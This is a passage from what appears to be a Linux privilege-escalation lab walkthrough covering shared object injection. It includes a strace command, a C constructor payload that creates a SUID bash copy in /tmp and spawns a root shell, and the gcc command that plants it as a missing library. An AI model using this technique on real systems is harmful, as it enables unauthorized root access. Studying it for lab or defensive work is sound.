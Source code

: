 ![Privilege Escalation](./Image/30.png)

## Shared Object Injection

```bash
strace /usr/local/bin/suid-so 2&>1 | grep -i -E "open|access|no such file"
```

![Privilege Escalation](./Image/31.png)

Malicious code

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        system("cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p");
}
```

![Privilege Escalation](./Image/32.png)

```bash
gcc -shared -fPIC -o /home/user/.config/libcalc.so libcal.c 
```

![Privilege Escalation](./Image/33.png)
